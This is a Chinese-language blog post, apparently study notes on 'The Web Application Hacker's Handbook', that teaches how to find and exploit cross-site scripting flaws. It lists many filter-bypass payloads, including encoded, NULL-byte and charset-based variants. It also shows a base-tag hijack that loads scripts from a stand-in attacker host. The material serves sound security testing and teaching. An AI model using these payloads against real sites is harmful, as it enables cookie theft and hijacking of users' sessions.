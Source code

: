```yaml
---
layout:     post
title:      Chapter 12 Attacking Users: Cross-Site Scripting(3) - Finding and Exploiting XSS Vulnerabilities(1_1)
subtitle:   查找和利用XSS漏洞(1_1)
date:       2020-03-17
author:     D
header-img: 
catalog: true
mermaid: true
tags: [web hacking]
---
```


参考:**The Web Application Hackers Handbook** Chapter 11

# 查找和利用XSS漏洞(Finding and Exploiting XSS Vulnerabilities)

识别XSS漏洞的基本方法是使用标准的概念验证攻击字符串，例如：
```
"><script>alert(document.cookie)</script>
```
该字符串作为每个参数提交给应用程序的每个页面，并监视响应以查找同一字符串的外观。 如果发现攻击字符串在响应中未更改的情况，则几乎可以肯定该应用程序容易受到XSS的攻击。

如果您只是想在应用程序中尽快识别XSS的某个实例，以对其他应用程序用户发起攻击，则这种基本方法可能是最有效的，因为它可以轻松实现自动化并产生最少的误报。 但是，如果您的目标是对应用程序执行全面的测试以找到尽可能多的单个漏洞，则需要使用更复杂的技术来补充基本方法。 不能通过基本的检测方法识别的应用程序中存在XSS漏洞的几种不同方式：
- 许多应用程序都实施了基于黑名单的基本过滤器，以防止XSS攻击。 这些过滤器通常在请求参数中查找诸如`<script>`之类的表达式，并采取一些防御措施，例如删除或编码该表达式或阻止该请求。 这些过滤器通常会阻塞基本检测方法中常用的攻击字符串。 但是，仅由于过滤了一个常见的攻击字符串，并不意味着不存在可利用的漏洞。 正如您将看到的，在某些情况下，无需使用`<script>`标记甚至不使用通常过滤的字符（例如`"` `<` `>`和`/`），都可以创建有效的XSS利用。
- 在许多应用程序中实施的抗XSS过滤器都是有缺陷的，可以通过各种方法来规避。 例如，假设应用程序在处理用户输入之前会剥离所有`<script>`标记。 这意味着基本方法中使用的攻击字符串不会在应用程序的任何响应中返回。 但是，以下一个或多个字符串可能会绕过过滤器并导致XSS成功利用：
```
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3e%3cscript%3ealert(document.cookie)%3c/script%3e
"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00"><script>alert(document.cookie)</script>
```
请注意，在某些情况下，输入字符串可以在返回服务器响应之前进行清理，解码或其他修改，但对于XSS攻击来说仍然足够。 在这种情况下，基于提交特定字符串并检查其是否出现在服务器响应中的检测方法本身不会成功地发现漏洞。

利用基于DOM的XSS漏洞，攻击有效载荷不一定会在服务器的响应中返回，而是会保留在浏览器DOM中，并由客户端JavaScript从那里进行访问。 同样，在这种情况下，找到基于特定字符串并检查其在服务器响应中的出现的方法不会成功。

# 查找和利用反射型XSS漏洞(Finding and Exploiting Reflected XSS Vulnerabilities)

检测可靠的XSS漏洞的最可靠方法涉及系统地研究在应用程序映射过程中确定的所有用户输入入口点（请参阅第4章），并遵循以下步骤：
- 在每个入口点提交一个良性字母字符串。
- 确定该字符串在应用程序的响应中反映的所有位置。
- 对于每个反射，请确定反射数据出现的句法上下文。
- 提交针对反射的句法上下文量身定制的修改后的数据，尝试将任意脚本引入响应中。
- 如果反射的数据被阻止或清除，阻止了脚本的执行，请尝试理解并规避应用程序的防御性筛选器。

# 1 识别用户输入的反映(Identifying Reflections of User Input)

测试过程的第一步是向每个入口点提交一个良性字符串，并标识响应中该字符串所反映的每个位置。

**HACK STEPS**
- 1. 选择一个唯一的任意字符串，该字符串不会出现在应用程序中的任何位置，并且仅包含字母字符，因此不太可能受到任何XSS特定的过滤器的影响。 例如：
```
myxsstestdmqlwp
```
将此字符串作为每个参数提交到每个页面，一次仅定位一个参数。
- 2. 监视应用程序的响应，以查看是否出现相同的字符串。 记录每个参数的值，这些参数的值将被复制到应用程序的响应中。 这些不一定很容易受到攻击，但是确定的每个实例都是进行进一步调查的候选对象，如下一节所述。
- 3. 请注意，`GET`和`POST`请求都需要进行测试。 您应该在URL查询字符串和消息正文中都包含每个参数。 尽管存在只能通过POST请求触发的XSS漏洞的较小范围的传递机制，但是仍然可以利用，如前所述。
- 4. 请注意，GET和POST请求都需要进行测试。 您应该在URL查询字符串和消息正文中都包含每个参数。 尽管存在只能通过POST请求触发的XSS漏洞的较小范围的传递机制，但是仍然可以利用，如前所述。
- 5. 除了标准请求参数之外，您还应该测试应用程序在其中处理HTTP请求标头内容的每个实例。 错误消息中会出现一个常见的XSS漏洞，其中将Referer和User-Agent标头等项目复制到消息的内容中。 这些标头是传递反射的XSS攻击的有效手段，因为攻击者可以使用Flash对象诱使受害者发出包含任意HTTP标头的请求。

# 2 测试反射以引入脚本(Testing Reflections to Introduce Script)

您必须手动调查已确定的每个反射输入实例，以验证该输入是否确实可利用。 在响应中反映数据的每个位置，您需要确定该数据的句法上下文。 您必须找到一种修改输入的方法，以便在将输入复制到应用程序响应中的同一位置后，可以执行任意脚本。 让我们看一些例子。

## 2.1 示例1：标签属性值(Example 1: A Tag Attribute Value)
假设返回的页面包含以下内容：
```
<input type="text" name="address1" value="myxsstestdmqlwp">
```
进行XSS攻击的一种明显方法是终止包含属性值的双引号，关闭<input>标记，然后采用一些引入JavaScript的方法，例如<script>标记。 例如：
```
"><script>alert(1)</script>
```
在这种情况下，可以绕过某些输入过滤器的另一种方法是保留在<input>标记本身内，但注入一个包含JavaScript的事件处理程序。 例如：
```
" onfocus="alert(1)
```
## 2.2 示例2：JavaScript字符串(Example 2: A JavaScript String)
假设返回的页面包含以下内容：
```
<script>var a = 'myxsstestdmqlwp'; var b = 123; ... </script>
```
在这里，您控制的输入将直接插入到现有脚本中带引号的字符串中。 要利用漏洞，您可以在字符串周围用单引号引起来，用分号终止该语句，然后直接进入所需的JavaScript：
```
'; alert(1); var foo='
```
请注意，因为您已经终止了带引号的字符串，为防止JavaScript解释器内发生错误，您必须确保脚本在注入代码之后以有效的语法继续正常运行。 在此示例中，声明了变量foo，并打开了第二个带引号的字符串。 它将由紧随您的字符串之后的代码终止。 通常有效的另一种方法是用`//`结束输入，以注释掉该行的其余部分。

## 2.3 示例3：包含URL的属性(Example 3: An Attribute Containing a URL)
假设返回的页面包含以下内容：
```
<a href="myxsstestdmqlwp">Click here ...</a>
```
在这里，您控制的字符串将插入到<a>标记的href属性中。 在这种情况下，以及在许多其他属性可能包含URL的情况下，您可以使用javascript：协议直接在URL属性内引入脚本：
```
javascript:alert(1);
```
因为您的输入反映在tag属性中，所以您也可以注入事件处理程序，如前所述。

对于适用于所有当前浏览器的攻击，可以将无效的图像名称与`onclick`事件处理程序一起使用：
```
#"onclick="javascript:alert(1)
```
**TIP**<br>
与其他攻击一样，请确保对请求中有意义的任何特殊字符进行URL编码，包括`＆` `=` `+` `;`和`空格`。

**HACK STEPS**<br>
对前面步骤中标识的每个反射输入执行以下操作：<br>

- 1. 查看HTML源代码以标识反映您的唯一字符串的位置。
- 2. 如果字符串出现不止一次，则每次出现都需要被视为一个单独的潜在漏洞并进行单独调查。
- 3. 根据用户可控制的字符串在HTML中的位置，确定如何进行修改以引起任意脚本的执行。通常，许多不同的方法都可能成为攻击的手段，如本章稍后所述。
- 4. 通过将其提交给应用程序来测试您的漏洞利用。 如果您制作的字符串仍未修改地返回，则该应用程序容易受到攻击。 通过使用概念证明脚本显示警报对话框来仔细检查语法是否正确，并在呈现响应时确认该对话框确实出现在浏览器中。

# 3 探测防御性过滤器(Probing Defensive Filters)

很多时候，您会发现服务器以某种方式修改了您最初尝试的利用程序，因此它们无法成功执行您注入的脚本。 如果发生这种情况，请不要放弃！ 您的下一个任务是确定正在发生哪些影响您输入的服务器端处理。 有三种广泛的可能性：
- 该应用程序（或保护该应用程序的Web应用程序防火墙）已识别出攻击特征并阻止了您的输入。
- 该应用程序已接受您的输入，但已对攻击字符串进行了某种清理或编码。
- 该应用程序已将您的攻击字符串截断为固定的最大长度。

我们将依次研究每种情况，并讨论可以避免应用程序处理过程中出现的障碍的各种方法。

# 4 击败基于签名的过滤器(Beating Signature-Based Filters)
在第一种类型的过滤器中，应用程序对攻击字符串的响应通常与对无害字符串的响应完全不同。 例如，它可能会显示一条错误消息，甚至可能表明已检测到可能的XSS攻击，如图12-8所示。

![figure12-8](/img/web_hacking/twahh/figure12-8.jpg)

如果发生这种情况，下一步就是确定输入中哪些字符或表达式正在触发过滤器。 一种有效的方法是依次删除字符串的不同部分，然后查看输入是否仍被阻止。 通常，此过程很快就会确定诸如`<script>`之类的特定表达式导致请求被阻止。 然后，您需要测试过滤器以确定是否存在任何旁路。

将脚本代码引入HTML页面的方法有很多，通常可以绕过基于签名的过滤器。 您可以找到一种引入脚本的替代方法，也可以使用浏览器可以容忍的语法稍有错误的语法。 本节研究了执行脚本的多种不同方法。 然后，它描述了可用于绕过常见滤波器的多种技术。

## 4.1 脚本代码介绍的方法(Ways of Introducing Script Code)
您可以通过四种主要方式将脚本代码引入HTML页面。 我们将依次研究它们，并给出一些不常见的示例，这些示例可能会成功绕过基于签名的输入过滤器。

**NOTE**<br>
浏览器对不同HTML和脚本语法的支持差异很大。 各个浏览器的行为通常随每个新版本而变化。 因此，任何有关单个浏览器行为的"权威性"指南都可能很快过时。 但是，从安全性的角度来看，应用程序必须以健壮的方式运行所有流行浏览器的当前和最新版本。 如果只能使用仅一小部分用户使用的特定浏览器来进行XSS攻击，则这仍然构成应解决的漏洞。 在撰写本文时，本章中给出的所有示例均在至少一个主要的浏览器上运行。

作为参考，本章撰写于2011年3月，这些攻击描述了至少以下一项的所有工作：
-  Internet Explorer version 8.0.7600.16385
-  Firefox version 3.6.15

## 4.2 脚本标签(Script Tags)
除了直接使用<script>标记之外，您还可以通过多种方式使用一些复杂的语法来包装标记的用法，从而破坏某些过滤器：
```
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
Click here</a>
```
前面的示例中的Base64编码的字符串是：
```
<script>alert(1)</script>
```
## 4.3 事件处理程序(Event Handlers)
许多事件处理程序可以与各种标记一起使用，以使脚本执行。 以下是一些鲜为人知的示例，它们无需任何用户交互即可执行脚本：
```
<xml onreadystatechange=alert(1)>
<style onreadystatechange=alert(1)>
<iframe onreadystatechange=alert(1)>
<object onerror=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)>
<input type=image src=valid.gif onreadystatechange=alert(1)>
<isindex type=image src=valid.gif onreadystatechange=alert(1)>
<script onreadystatechange=alert(1)>
<bgsound onpropertychange=alert(1)>
<body onbeforeactivate=alert(1)>
<body onactivate=alert(1)>
<body onfocusin=alert(1)>
```
HTML5使用事件处理程序提供了大量新的向量。 其中包括使用autofocus属性自动触发以前需要用户交互的事件：
```
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus><input autofocus>
<body onscroll=alert(1)><br><br>...<br><input autofocus>
```
它允许在结束标记中使用事件处理程序：
```
</a onmousemove=alert(1)>
```
最后，HTML5引入了带有事件处理程序的新标记：
```
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
```
## 4.4 脚本伪协议(Script Pseudo-Protocols)
脚本伪协议可以在各个位置使用，以在需要URL的属性内执行内联脚本。 这里有些例子：
```
<object data=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
```
尽管最常用的方法是使用javascript伪协议作为该技术的示例，但也可以在Internet Explorer浏览器上使用`vbs`协议，如本章稍后所述。

与事件处理程序一样，HTML5提供了一些在XSS攻击中使用脚本伪协议的新方法：
```
<form id=test /><button form=test formaction=javascript:alert(1)>
<event-source src=javascript:alert(1)>
```
当定位输入过滤器时，新的事件源标签特别有用。 与任何HTML5之前的标签不同，它的名称包含连字符，因此使用此标签可能会绕过基于旧正则表达式的过滤器，这些过滤器假定标签名称只能包含字母。

## 4.5 动态评估样式(Dynamically Evaluated Styles)
某些浏览器支持在动态评估的CSS样式中使用JavaScript。 下面的示例在兼容模式下运行时，适用于IE7和更早版本，以及更高版本：
```
<x style=x:expression(alert(1))>
```
IE的更高版本删除了对先前语法的支持，因为它实际上仅在XSS攻击中使用。 但是，在更高版本的IE上，可以使用以下命令达到相同的效果：
```
<x style=behavior:url(#default#time2) onbegin=alert(1)>
```
Firefox浏览器过去曾通过`moz-binding`属性允许基于CSS的攻击，但是对此功能的限制意味着它现在在大多数XSS场景中不再有用。

# 5 绕过过滤器：HTML(Bypassing Filters: HTML)
前面的部分描述了可从HTML页面内执行脚本代码的多种方式。 在许多情况下，您可能会发现，只需切换到另一种鲜为人知的脚本执行方法，就可以击败基于签名的过滤器。 如果失败了，则需要研究混淆攻击的方法。 通常，您可以通过引入意想不到的变化来做到这一点用过滤器接受的语法以及返回输入时浏览器允许的格式。 本节研究了混淆HTML语法以击败常见过滤器的方法。 下一节将相同的原理应用于JavaScript和VBScript语法。

用于阻止XSS攻击的基于签名的过滤器通常使用正则表达式或其他技术来标识关键的HTML组件，例如标记括号，标记名称，属性名称和属性值。 例如，过滤器可能试图阻止包含使用特定标签或已知允许引入脚本的属性名称的HTML的输入，或者可能尝试阻止以脚本伪协议开头的属性值。 通过以一种或多种浏览器允许的方式在HTML的关键点处放置不寻常的字符，可以绕开许多这些过滤器。

要查看此技术的实际效果，请考虑以下简单利用：
```
<img onerror=alert(1) src=a>
```
您可以通过多种方式修改此语法，但仍然可以在至少一个浏览器上执行代码。 我们将依次检查每个。 实际上，您可能需要将这些技术中的几种结合在一个漏洞中，以绕过更复杂的输入过滤器。
## 5.1 标签名称(The Tag Name)
从开始标签名称开始，可以通过更改所使用字符的大小写来绕过最简单的过滤器：
```
<iMg onerror=alert(1) src=a>
```
更进一步，您可以在任何位置插入NULL字节：
```
<[%00]img onerror=alert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
（在这些示例中，[`％XX`]表示具有十六进制ASCII码`XX`的文字字符。向应用程序提交攻击时，通常会使用字符的URL编码形式。在查看应用程序的响应时，您需要 查找正好反映的文字解码字符。）

**TIP**<br>
NULL字节技巧可在HTML页面中任何地方的Internet Explorer上使用。 在XSS攻击中自由使用NULL字节通常可以提供一种快速的方法，以绕过不了解IE行为的基于签名的过滤器。

从历史上看，使用NULL字节可有效防止配置为阻止包含已知攻击字符串的请求的Web应用程序防火墙（WAF）。 因为出于性能原因，WAF通常是用本机代码编写的，所以NULL字节终止了出现它的字符串。 这样可以防止WAF看到NULL之后出现的恶意有效负载（有关更多详细信息，请参见第16章）。

在标签名称中，如果您稍稍修改示例，则可以使用任意标签名称引入事件处理程序，从而绕过仅阻止特定命名标签的过滤器：
```
<x onclick=alert(1) src=a>Click here</x>
```
在某些情况下，您可以引入具有各种名称的新标签，但找不到使用这些标签直接执行代码的任何方法。 在这种情况下，您可能可以使用称为"基本标签劫持"的技术来发动攻击。 `<base>`标记用于指定一个URL，浏览器应使用该URL来解析随后出现在页面中的任何相对URL。 如果可以引入新的`<base>`标记，并且页面在使用相对URL的反射点之后执行任何`<script>`包含的内容，则可以为您控制的服务器指定基本URL。 当浏览器加载HTML页面其余部分中指定的脚本时，它们是从您指定的服务器加载的，但仍在调用它们的页面的上下文中执行。 例如：
```
<base href="http://mdattacker.net/badscripts/">
...
<script src="goodscript.js"></script>
```
根据规范，`<base>`标签应出现在HTML页面的`<head>`部分中。 但是，某些浏览器（包括Firefox）会接受出现在页面任何位置的`<base>`标签，从而大大扩大了这种攻击的范围。

## 5.2 标签名称后的空格(Space Following the Tag Name)
几个字符可以代替标签名称和第一个属性名称之间的空格：
```
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
<img/'onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
```
请注意，即使在攻击不需要任何标签属性的地方，您也应始终尝试在标签名称之后添加一些多余的内容，因为这会绕过一些简单的过滤器：
```
<script/anyjunk>alert(1)</script>
```
## 5.3 属性名称(Attribute Names)
在属性名称内，您可以使用前面所述的相同NULL字节技巧。 这绕过了许多简单的过滤器，这些过滤器试图通过阻塞以`on`开头的属性名称来阻塞事件处理程序。
```
<img o[%00]nerror=alert(1) src=a>
```
## 5.4 属性分隔符(Attribute Delimiters)
在原始示例中，没有对属性值进行定界，因此在可以引入另一个属性之前，在该属性值后需要一些空格以指示其已结束。 属性可以选择用双引号或单引号定界，或者在IE上用反引号定界：
```
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
<img onerror=`alert(1)`src=a>
```
在前面的示例中切换属性提供了另一种绕过某些过滤器的方法，这些过滤器检查以on开头的属性名称。 如果过滤器不知道反引号充当属性定界符，则将以下示例视为包含单个属性，该名称不是事件处理程序的名称：
```
<img src=`a`onerror=alert(1)>
```
通过将引号分隔的属性与标记名称后的意外字符结合在一起，可以设计出不使用任何空格的攻击，从而绕过一些简单的过滤器：
```
<img/onerror="alert(1)"src=a>
```
## 5.5 属性值(Attribute Values)
在属性值本身内，您可以使用NULL字节技巧，还可以对值内的字符进行HTML编码：
```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
```
因为浏览器先对属性值进行HTML解码，然后再对其进行进一步处理，所以您可以使用HTML编码来混淆脚本代码的使用，从而避免使用许多过滤器。 例如，以下攻击绕过了许多试图阻止使用JavaScript伪协议处理程序的过滤器：
```
<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >
```
使用HTML编码时，值得注意的是，浏览器以某种方式容忍与规范的各种差异，即使是意识到HTML编码问题的过滤器也可能会忽略这些方式。 您可以使用十进制和十六进制格式，添加多余的前导零，并省略结尾的分号。 以下示例均可以在至少一个浏览器上运行：
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
## 5.6 标签支架(Tag Brackets)
在某些情况下，通过利用古怪的应用程序或浏览器行为，可以使用无效的标签括弧，并仍然使浏览器按照攻击所需的方式处理标签。

某些应用程序在应用了输入过滤器之后，会对输入进行多余的URL解码，因此以下输入出现在请求中：
```
%253cimg%20onerror=alert(1)%20src=a%253e
```
由应用程序服务器进行URL编码，并通过以下方式传递给应用程序：
```
%3cimg onerror=alert(1) src=a%3e
```
它不包含任何标签括号，因此不受输入过滤器的限制。 但是，执行第二个URL解码的应用程序，因此输入变为：
```
<img onerror=alert(1) src=a>
```
它会回显给用户，从而导致攻击执行。

如第2章所述，当应用程序框架根据字形或语音的相似性将不寻常的Unicode字符"转换"为最接近的ASCII等效字符时，可能会发生类似的情况。 例如，以下输入使用Unicode双角引号（％u00AB和％u00BB）代替标签括号：
```
«img onerror=alert(1) src=a»
```
应用程序的输入过滤器可能允许此输入，因为它不包含任何有问题的HTML。 但是，如果应用程序框架在将输入插入响应中的点将引号转换为标记字符，则攻击成功。 已经发现许多应用程序容易受到这种攻击，开发人员可以忽略这些攻击。

一些输入过滤器通过简单地匹配左尖括号和右尖括号，提取内容并将其与标记名称的黑名单进行比较来识别HTML标记。 在这种情况下，您可以使用浏览器允许的超级括号来绕过过滤器：
```
<<script>alert(1);//<</script>
```
在某些情况下，可以利用浏览器的HTML解析器中的意外行为来提供绕过应用程序输入过滤器的攻击。 例如，以下使用ECMAScript for XML（E4X）语法的HTML并不包含有效的打开脚本标签，但仍在当前版本的Firefox上执行随附的脚本：
```
<script<{alert(1)}/></script>
```
**TIP**<br>
在所描述的几个过滤器绕过中，攻击导致HTML格式不正确，但客户端浏览器可以忍受。 由于许多合法网站都包含不严格符合标准的HTML，因此浏览器会接受各种形式的HTML。 它们有效地修复了呈现页面之前幕后的错误。 通常，当您尝试在异常情况下微调攻击时，查看浏览器根据服务器的实际响应构建的虚拟HTML可能会有所帮助。 在Firefox中，您可以使用WebDeveloper工具，该工具包含恰好执行此任务的"查看生成的源"功能。

## 5.7 字符集(Character Sets)
在某些情况下，通过使应用程序接受攻击载荷的非标准编码，您可以采用一种有效的方法来绕过许多类型的过滤器。 以下示例显示了备用字符集中字符串`<script>alert(document.cookie)</script>`的一些表示形式：<br>

**UTF-7**
```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```
**US-ASCII**
```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE                            ; script¾
```
**UTF-16**
```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 ; ÿþ<.s.c.r.i.p.t.
3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 ; >.a.l.e.r.t.(.d.
6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 ; o.c.u.m.e.n.t...
63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 ; c.o.o.k.i.e.).<.
2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 ; /.s.c.r.i.p.t.>.
```
这些编码的字符串将绕过许多常见的反XSS过滤器。 进行成功攻击的挑战是使浏览器使用所需的字符集来解释响应。 如果您控制HTTP Content-Type标头或其相应的HTML元标记，则可以使用非标准字符集来绕过应用程序的过滤器，并使浏览器以所需的方式解释有效负载。 在某些应用程序中，字符集参数实际上是在某些请求中提交的，使您可以直接设置应用程序响应中使用的字符集。

如果默认情况下应用程序使用多字节字符集（例如Shift-JIS），则可以通过提交在使用的字符集中具有特殊意义的字符来绕过某些输入过滤器。 例如，假设在应用程序的响应中返回了两条用户输入：
```
<img src="image.gif" alt="[input1]" /> ... [input2]
```
对于input1，应用程序阻止包含引号的输入，以防止攻击者终止带引号的属性。 对于input2，应用程序阻止包含尖括号的输入，以防止攻击者使用任何HTML标记。 这似乎很可靠，但是攻击者可能可以使用以下两个输入来提供利用：
```
input1: [%f0]
input2: "onload=alert(1);
```
在Shift-JIS字符集中，各种原始字节值（包括0xf0）用于表示2字节字符，该字符由该字节和下一个字节组成。 因此，当浏览器处理input1时，0xf0字节后的引号被解释为2字节字符的一部分，因此不对属性值定界。 HTML解析器将一直持续到到达input2中提供的引号为止，该引号终止该属性，从而使攻击者提供的事件处理程序可以解释为附加的标记属性：
```
<img src="image.gif" alt="? /> ... "onload=alert(1);
```
当在广泛使用的多字节字符集UTF-8中识别出此类漏洞时，浏览器供应商做出了回应，提出了阻止攻击成功的解决方案。 但是，当前针对某些其他浏览器较少使用的多字节字符集（包括Shift-JIS，EUC-JP和BIG5），同样的攻击仍在某些浏览器上起作用。

[Chapter 12 Attacking Users: Cross-Site Scripting(2) - XSS Attacks in Action](https://dm116.github.io/2020/03/17/attacking-users-cross-site-scripting_2)<br>
[Chapter 12 Attacking Users: Cross-Site Scripting(3) - Finding and Exploiting XSS Vulnerabilities(1_1)](https://dm116.github.io/2020/03/17/attacking-users-cross-site-scripting_3_1_2/)<br>
